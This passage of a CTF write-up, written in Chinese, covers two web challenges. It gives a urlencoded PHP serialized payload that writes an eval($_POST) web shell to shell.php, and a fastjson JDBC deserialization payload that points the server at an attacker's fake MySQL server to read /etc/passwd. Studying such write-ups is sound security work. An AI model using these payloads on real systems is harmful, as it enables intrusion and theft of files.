 ```php
echo urlencode(serialize($filehandler));


```

:::color2
O%3A11%3A%22FileHandler%22%3A2%3A%7Bs%3A23%3A%22%00FileHandler%00fileHandle%22%3Bs%3A3%3A%22111%22%3Bs%3A21%3A%22%00FileHandler%00fileName%22%3BO%3A4%3A%22User%22%3A1%3A%7Bs%3A14%3A%22%00User%00userData%22%3Ba%3A2%3A%7Bs%3A4%3A%22data%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A6%3A%22Logger%22%3A2%3A%7Bs%3A15%3A%22%00Logger%00logFile%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A17%3A%22%00Logger%00lastEntry%22%3BN%3B%7Di%3A1%3Bs%3A4%3A%22info%22%3B%7Ds%3A6%3A%22params%22%3Bs%3A23%3A%22%3C%3F%3D%40eval%28%24_POST%5Ba%5D%29%3B+%3F%3E%22%3B%7D%7D

:::

用蚁剑连接 shell.php 即可。



# FastDB
![](../../../../images/34725395a4e60df02ef271aaadac03f6.png)

可以传 json，应该是个 fastjson。

试着打了一下 JDBC 反序列化，用 vps 启了一个 MySQL_Fake_Server 服务，传了下面的 payload，发现有响应，但是读不到东西。

```json
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "x.x.x.x", "portToConnectTo": 3306, "info": { "user": "fileread_/etc/passwd", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }
```

![](../../../../images/dac094342917ddd1ed5250a66977d5f7.png)
